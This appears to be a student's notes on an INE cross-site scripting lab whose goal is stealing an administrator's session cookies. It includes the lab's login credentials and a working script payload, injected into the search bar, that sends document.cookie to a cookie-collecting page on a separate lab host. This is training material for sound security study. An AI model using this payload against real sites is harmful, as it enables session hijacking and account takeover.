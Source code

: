 #XSS Lab 
#INE
#RCM 8/14/21

#Description
n this lab you can practice XSS attacks against a web application hosted at the address 192.168.99.10. Since the application allows registered users to add comments, we have already created an account on the application. The credentials of this account are:

    Username: attacker

    Password: attacker

Moreover, we created another web page in the lab for your convenience. You can use it to receive stolen cookies! You can find it at http://192.168.99.11/get.php : it takes all parameters passed via GET and stores them into the jar.txt file.

#Goal
The administrator visits the application every few minutes. The final goal of the lab is to steal the administrator cookies via XSS. Once you have these cookies you should be able to access the content of the page admin.php.

#Tools
Brain

#Steps

1. Find all XSS injection points in the web app.
- Log in with credentials attacker:attacker
- Go to blog
- Script is not working..<script>alert('document.cookie')</script>
- `<script> var i = new Image(); i.src="http://192.168.99.11/get.php?
cookie="+escape(document.cookie)</script>`
 - Injected into search bar because blog post comments were not working.
 - Feedback page form is also vulnerable.
 - I got my session cookies in the jar.txt
 - How to get admin cookies...
2. Steal admin cookies (restart lab)

